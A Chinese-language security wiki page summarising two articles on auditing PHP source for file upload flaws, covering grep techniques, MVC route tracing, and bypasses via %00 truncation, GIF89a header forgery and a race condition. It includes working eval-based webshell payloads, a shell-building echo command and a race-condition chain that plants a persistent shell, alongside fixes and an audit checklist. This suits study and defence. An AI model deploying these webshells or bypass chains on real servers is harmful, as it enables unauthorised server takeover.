

## 概述

本页面沉淀自「白帽子分享之代码审计的艺术系列」**第七季**（作者：HackBraid，乌云核心白帽子）与**第八季**（作者：李斌，汽车之家高级安全工程师、前奇虎360资深安全研究员、乌云核心白帽子）两篇文章，形成**文件上传漏洞全生命周期白盒审计知识体系**：

| 季度 | 核心聚焦 | 关键产出 |
|------|----------|----------|
| **第七季** | **发现与定位**：全局搜索技巧、MVC框架路由分析、实战案例溯源流程 | 从零开始快速定位上传点、理清框架路由、完整代码审计溯源链路 |
| **第八季** | **利用与绕过**：危险函数识别、PHP%00截断、Content-Type伪造、条件竞争利用链 | 白盒视角下的绕过技巧分类、利用链构造、纵深防御检测清单 |

> 文件上传漏洞是直接获取服务器权限最直接的方式，快速发掘一套源码的文件上传漏洞进行 Getshell 是代码审计的高频实战诉求。本知识页将「怎么找」与「怎么利用」串联为完整闭环。

---

## 第七季：发现与定位 —— 全局搜索、路由分析与实战溯源

### 文件越权访问搜索技巧（基础铺垫）

代码审计切入点往往从**权限控制缺失**开始。PHP 中全局文件（如 `global.php`、`common.php`）通常包含登录校验逻辑，**未引入这些文件的 PHP 文件即为潜在越权访问点**。

#### Linux 环境快速定位命令

```bash
# 查找未包含 global.php 的 PHP 文件
find . -name "*.php" -exec grep -L "global.php" {} \;

# 或查找未包含 common.php 的文件
find . -name "*.php" -exec grep -L "common.php" {} \;
```

#### 实战案例：wooyun-2010-098084

**漏洞成因**：目标系统大量功能文件未引入根目录 `global.php`，导致无登录校验直接执行敏感操作。

**审计流程**：
1. 确认全局校验文件位置（如 `/global.php`）
2. 批量搜索未引入该文件的 PHP 文件
3. 逐个排查功能点，确认是否存在敏感操作（文件上传、删除、配置修改等）

> **关联页面**：[[code-audit-file-operation-vulnerabilities#文件越权访问搜索技巧]]、[[logic-vulnerability-password-reset-audit#越权绑定与修改绑定]]

---

### 文件上传漏洞全局搜索技巧

#### 两阶段搜索策略

| 阶段 | 搜索目标 | 关键词/正则 | 工具示例 |
|------|----------|-------------|----------|
| **前端入口发现** | HTML 表单上传点 | `type="file"`、`enctype="multipart/form-data"` | `grep -rn 'type="file"' --include="*.php" --include="*.html" .` |
| **后端逻辑定位** | 文件处理核心代码 | `$_FILES`、`move_uploaded_file`、`copy`、`getimagesize` | `grep -rn '\$_FILES' --include="*.php" .` |

> **技巧**：先恱前端 `type="file"` 定位「上传功能入口」，再恱 `$_FILES` 定位「处理逻辑」，两者结合快速缩小审计范围。

---

### MVC 框架路由分析方法论

面对现代 PHP 框架（ThinkPHP、Laravel、CodeIgniter、Yii 等），需先**推导路由规则**，再定位 Controller/Action。

#### 实战推导步骤（以第七季案例为例）

1. **观察 URL 结构**  
   ```
   www.xx00.com/gold_auction/auction_details/532
   www.xx00.com/index/baoming
   ```

2. **推断路由规则**  
   `domain / module / controller / action / param`  
   → 功能函数位于 `/application/controller/` 目录下

3. **定位前端视图**  
   搜索 `action="upload"` 找到视图文件：`/application/views/phone_test/display.php`

4. **回溯 Controller**  
   对应 `/application/controller/phone_test.php` 中的 `upload()` 方法

5. **代码审计溯源**  
   分析 `upload()` 函数参数获取、校验逻辑、存储路径拼接、危险函数调用全链路

#### 常见框架路由对照表

| 框架 | 默认路由格式 | Controller 定位 | 视图目录 |
|------|--------------|-----------------|----------|
| ThinkPHP 3/5 | `/module/controller/action` | `application/controller/` | `application/view/` |
| Laravel | 路由文件定义 | `app/Http/Controllers/` | `resources/views/` |
| CodeIgniter | `/controller/method` | `application/controllers/` | `application/views/` |
| Yii 2 | `/controller/action` | `controllers/` | `views/` |

> **审计建议**：拿到源码先看 `composer.json`/`framework` 目录判断框架类型，再根据框架文档确认路由规则，避免盲目搜索。

---

### 实战案例完整溯源：xx00.com 文件上传漏洞

#### 步骤复盘

| 步骤 | 动作 | 关键命令/发现 |
|------|------|---------------|
| 1 | 全局搜索上传入口 | `grep -rn 'type="file"' .` → 发现 `display.php` |
| 2 | 确认表单提交目标 | `action="upload"` 无完整路径，结合框架路由推断 |
| 3 | 定位 Controller | `/application/controller/phone_test.php` |
| 4 | 分析 `upload()` 函数 | 直接使用 `$_FILES` 参数，无后缀校验、无文件头校验、路径可控 |
| 5 | 验证漏洞 | 构造上传 `shell.php`，直接落地 Web 目录可执行 |

#### 核心漏洞代码模式（简化）

```php
public function upload() {
    $file = $_FILES['file'];
    $filename = $file['name'];           // 文件名完全可控
    $tmp_name = $file['tmp_name'];
    $save_path = "./uploads/{$filename}"; // 路径拼接无过滤
    move_uploaded_file($tmp_name, $save_path); // 直接移动
    echo "上传成功: {$save_path}";
}
```

**缺陷点**：
- 无文件后缀白名单校验
- 无 `getimagesize()`/`mime_content_type()` 内容校验
- 存储目录具备脚本执行权限
- 文件名未随机化重命名

> **关联页面**：[[upload-labs-file-upload-bypass-writeup]]、[[php-webshell-fundamentals-chopper-analysis#文件上传绕过实战]]

---

## 第八季：利用与绕过 —— 危险函数、绕过技巧与竞争利用

### 危险函数识别清单

代码审计核心切入点为**文件处理相关危险函数**，重点回溯参数来源，梳理「用户输入 → 校验逻辑 → 存储路径」完整数据流。

| 函数 | 典型用途 | 审计关注点 | 关联绕过技巧 |
|------|----------|------------|--------------|
| `move_uploaded_file()` | 移动上传临时文件 | 目标路径/文件名可控、校验缺失 | %00截断、解析漏洞、.htaccess |
| `getimagesize()` | 校验图片合法性 | 仅检测文件头、易被伪造 | GIF89a文件头伪造、EXIF注入 |
| `copy()` | 复制文件至指定路径 | 源/目标可控、配合删除逻辑 | 条件竞争落地 Webshell |
| `file_put_contents()` | 直接写入文件内容 | 内容/路径可控、无类型限制 | 直接写入 PHP 代码 |
| `fwrite()`/`fputs()` | 文件指针写入 | 结合 `fopen` 模式可控 | 日志投毒、会话文件写入 |

> **审计命令**：`grep -rn "move_uploaded_file\|getimagesize\|copy\|file_put_contents" --include="*.php" .`

---

### PHP %00 截断绕过

#### 成因与触发条件

| 条件 | 说明 |
|------|------|
| **PHP 版本** | `< 5.3.4`（详见 [CVE-2006-7243](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2006-7243)） |
| **配置** | `magic_quotes_gpc = Off`（否则 `%00` 被转义为 `\0` 失效） |

#### 漏洞代码示例

```php
$filename = $_GET['name'];                    // 可控参数
$ext = pathinfo($filename, PATHINFO_EXTENSION);
if (in_array($ext, ['jpg','png','gif'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], "/var/www/html/upload/{$filename}");
}
```

#### 利用 Payload

```
name=shell.php%00.jpg
```

- 校验时 `$ext = 'jpg'` 通过
- `move_uploaded_file` 实际写入 `shell.php`（`%00` 后内容被截断）

> **修复**：升级 PHP ≥ 5.3.4；显式过滤 `chr(0)`/`%00`；采用白名单校验文件名、随机化重命名存储。

---

### 文件头 / Content-Type 伪造绕过

#### 成因

开发者仅使用 `getimagesize()` 判断文件类型，该函数**仅解析文件头魔数**，不校验文件完整内容。

#### 绕过原理

在 PHP 脚本前预置 `GIF89a` 等合法图片文件头，`getimagesize()` 返回合法图片尺寸，实则文件为 PHP 脚本。

#### 测试代码

```php
$tmp = $_FILES['file']['tmp_name'];
$info = getimagesize($tmp);
if ($info !== false) {
    move_uploaded_file($tmp, "/var/www/html/upload/{$_FILES['file']['name']}");
}
```

#### 利用步骤

1. 构造文件内容：`GIF89a<?php @eval($_POST['cmd']); ?>`
2. 文件名设为 `shell.php` 或 `shell.php.jpg`（配合解析漏洞）
3. 上传通过 `getimagesize()` 校验，落地为可执行脚本

> **关联防御**：[[php-file-inclusion-vulnerability#伪协议与绕过技巧]]、[[upload-labs-file-upload-bypass-writeup#文件头检查绕过]]  
> **纵深修复**：
> - 二次渲染（`imagecreatefromjpeg` + `imagejpeg` 重写文件）
> - 存储目录禁用脚本执行权限（Nginx/Apache 配置 `location ~ \.php$ { deny all; }`）
> - 文件名随机化 + 扩展名白名单 + Content-Type 校验三重防护

---

### 条件竞争利用链构造

#### 漏洞代码模式

```php
// 缺陷逻辑：copy 生成文件 → 删除非 jpg 文件
$src = "/tmp/upload/image.jpg";                // 用户上传的图片（含 PHP 代码）
$dst = "/var/www/html/upload/{$filename}";     // 用户可控文件名（如 tmp.php）
copy($src, $dst);                               // 复制为 tmp.php

$files = glob("/var/www/html/upload/*");
foreach ($files as $file) {
    if (pathinfo($file, PATHINFO_EXTENSION) !== 'jpg') {
        unlink($file);                          // 删除非 jpg，但 tmp.php 已落地
    }
}
```

**正常攻击流程失败**：上传 → `copy` 生成 `tmp.php` → `unlink` 删除 `tmp.php`，无法留存 Webshell。

#### Hacker 思路：竞争窗口利用

**核心思想**：利用「生成临时文件 → 请求临时文件触发写入 → 删除临时文件」的时间差，在上级目录落地持久化 Webshell。

#### 攻击链构造

1. **上传载荷文件**（`image.jpg` 内容）：
   ```php
   <?php
   // 写入上级目录 shell.php
   $shell = '../shell.php';
   $code = '<?php @eval($_POST[cmd]); ?>';
   file_put_contents($shell, $code);
   ?>
   ```

2. **并发两条请求线程**（Burp Suite Intruder / Python 脚本）：
   - **线程 A**：持续触发上传接口，不断生成临时文件 `tmp.php`（利用 `copy` 将 `image.jpg` 复制为 `tmp.php`）
   - **线程 B**：高频请求 `http://target/upload/tmp.php`，触发载荷执行，在上级目录写入 `shell.php`

3. **竞争窗口**：
   - 删除逻辑仅清理**当前目录**下的非 jpg 文件（`tmp.php`）
   - 上级目录的 `shell.php` 存活，实现 Getshell

**实战验证**：
- Burp 并发跑几秒后，访问 `http://target/shell.php` 即可连接蚁剑/菜刀
- 该技巧不依赖 PHP 版本、配置，纯业务逻辑层面利用

> **关联页面**：[[race-condition-vulnerability-analysis]]、[[upload-labs-file-upload-bypass-writeup#条件竞争绕过]]、[[php-webshell-fundamentals-chopper-analysis#持久化技术]]  
> **修复建议**：
> - 原子化文件操作：校验通过后再移动，或使用随机不可预测临时文件名
> - 删除逻辑采用白名单（仅保留合法后缀），而非黑名单删除
> - 存储目录与 Web 根目录物理隔离，或配置 `open_basedir` 限制跨目录写入

---

## 统一审计检测清单（Checklist）

| 检测项 | 关键词/函数 | 判定标准 | 关联绕过技巧 | 所属季度 |
|--------|-------------|----------|--------------|----------|
| 文件移动 | `move_uploaded_file` | 目标路径/文件名可控、无白名单校验 | %00 截断、解析漏洞、.htaccess | 第八季 |
| 图片校验 | `getimagesize` | 仅依赖该函数判断类型 | GIF89a 文件头伪造 | 第八季 |
| 文件复制 | `copy` | 源/目标路径可控、配合删除逻辑 | 条件竞争落地 Webshell | 第八季 |
| 后缀校验 | `pathinfo`、`substr`、正则 | 黑名单/可绕过正则、大小写敏感 | 双写绕过、大小写绕过、.phtml/.php5 | 第八季 |
| Content-Type | `$_FILES['type']` | 直接信任客户端传值 | 修改请求头绕过 | 第八季 |
| 二次渲染 | `imagecreatefrom*`、`imagejpeg` | 缺失或仅在特定分支调用 | 绕过二次渲染（EXIF 注入、PLTE 块注入） | 第八季 |
| 存储权限 | Nginx/Apache 配置 | 上传目录可执行 PHP | 直接访问 Getshell | 第八季 |
| 文件名随机化 | `uniqid`、`md5`、`random_bytes` | 可预测/不可控/未使用 | 覆盖写入、遍历下载 | 第八季 |
| **前端入口** | `type="file"` | 存在上传表单、action 可达 | 配合后端逻辑绕过 | **第七季** |
| **后端入口** | `$_FILES` | 直接使用未校验参数 | 结合危险函数利用 | **第七季** |
| **路由定位** | MVC Controller/Action | 路由规则推断准确、定位到处理函数 | 完整溯源审计链路 | **第七季** |
| **权限校验** | `global.php`/`common.php` 引入 | 敏感功能文件缺失全局校验 | 越权直接访问上传接口 | **第七季** |

---

## 交叉引用与延伸阅读

### 核心关联页面

- [[code-audit-file-operation-vulnerabilities]] — 文件下载/删除/越权漏洞审计方法论，互补文件操作类漏洞全景
- [[upload-labs-file-upload-bypass-writeup]] — Upload-Labs 19 关完整绕过实战，覆盖前端/后端/解析/竞争等全技巧谱
- [[php-file-inclusion-vulnerability]] — PHP 文件包含与伪协议利用，常配合上传漏洞构造 RCE 链
- [[php-webshell-fundamentals-chopper-analysis]] — Webshell 客户端对接、加密流量、持久化技术（.user.ini/.htaccess/PHAR）
- [[arbitrary-file-download-vulnerability-analysis]] — HDWiki 任意文件下载/删除审计案例，展示组件级代码溯源流程
- [[race-condition-vulnerability-analysis]] — 条件竞争漏洞成因分类、同步原语防御体系
- [[logic-vulnerability-password-reset-audit]] — 逻辑漏洞六大类型，含越权绑定、步骤跳过等与文件上传权限绕过同构
- [[cve-2006-7243]] — PHP %00 截断漏洞官方记录（NVD）

### 实战靶场与工具

- [[pikachu-target-writeup-part4]] — Pikachu 靶场文件上传多层绕过（前端校验、MIME、getimagesize、图片马）
- [[ctf-training-platforms-collection]] — 主流 CTF Web 靶场离线合集（含 Upload-Labs、BWVS、Webug 等）
- [[sqlmap-comprehensive-guide]] — SQLMap 自动化注入，常配合文件上传 Getshell 后的数据库操作
- [[pocsuite3-vulnerability-testing-framework]] — PoC 编写框架，可将上传漏洞封装为自动化检测插件

---

## 实战工具链推荐

| 场景 | 工具/脚本 | 用途 |
|------|-----------|------|
| 批量搜索危险函数 | `grep -rn "move_uploaded_file\|getimagesize\|copy\|file_put_contents" --include="*.php" .` | 快速定位审计切入点 |
| 前端上传点发现 | `grep -rn 'type="file"' --include="*.php" --include="*.html" .` | 定位上传功能入口 |
| MVC 路由推导 | 手工分析 URL 结构 + 框架文档 | 确定 Controller/Action 映射 |
| 条件竞争并发测试 | Burp Suite Intruder / `python3 -m concurrent.futures` | 多线程触发生成/访问临时文件 |
| 文件头构造 | `echo -n "GIF89a" > shell.php && cat payload.php >> shell.php` | 生成带合法魔数的 PHP 脚本 |
| 自动化审计 | [Fortify](https://www.microfocus.com/en-us/cyberres/application-security/fortify)、[RIPS](https://github.com/ripstech/ripms) | 静态分析辅助发现上传逻辑缺陷 |
| Webshell 连接 | 蚁剑、哥斯拉、中国菜刀 | 后渗透交互、流量加密对抗 |
| 路由自动化分析 | [PHP-Route-Analyzer](https://github.com/...)（自研脚本） | 批量解析框架路由映射关系 |

---

## 小结：全周期审计闭环

代码审计挖掘文件上传漏洞的**完整路径**：



> 「白盒审计的本质是**数据流追踪与逻辑推演**的结合。文件上传漏洞看似简单，实则考验审计者对 PHP 特性、Web 服务器解析机制、文件系统语义、并发模型及框架路由机制的全栈理解。」—— 李斌 & HackBraid

---

*页面维护者：知识库策展人 | 数据来源：白帽子分享之代码审计的艺术系列第七季（HackBraid/301在路上归档）+ 第八季（李斌/301在路上归档） | 更新日期：2024-01-15*

## 来源

- [301在路上-201508-202208_113](../sources/301在路上-201508-202208_113.md)
